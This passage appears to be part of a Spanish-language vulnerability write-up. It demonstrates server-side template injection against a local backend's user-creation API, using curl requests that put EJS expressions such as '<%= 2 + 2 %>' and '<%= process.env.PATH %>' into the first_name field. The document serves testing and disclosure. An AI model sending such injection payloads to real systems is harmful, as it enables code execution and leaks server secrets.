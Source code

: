 De esta forma, teniendo dos terminales abiertas, desde una terminal leeremos los logs del backend con el siguiente comando

```bash
docker compose logs -f backend
```

Y en la otra terminal ejecutaremos el comando CURL:

```bash
curl -i -X POST http://localhost:5000/users/ \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "username":"pocuser5",
    "password":"pocpass",
    "email":"poc5@example.com",
    "first_name":"<%= 2 + 2 %>",
    "last_name":"Tester"
  }'
```

Enconrtando que en vez de tener el saludo al nuevo usaurio, haciendo uso del first_name, saluda al numero `4`, resultado de `2 + 2`.

![alt text](/doc/vulnerabilidad-06/image-15.png)

Otra prueba puede ser:

```bash
curl -i -X POST http://localhost:5000/users/ \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "username":"pocuser10",
    "password":"pocpass",
    "email":"poc10@example.com",
    "first_name":"<%= process.env.PATH %>",
    "last_name":"Tester"
  }'
```
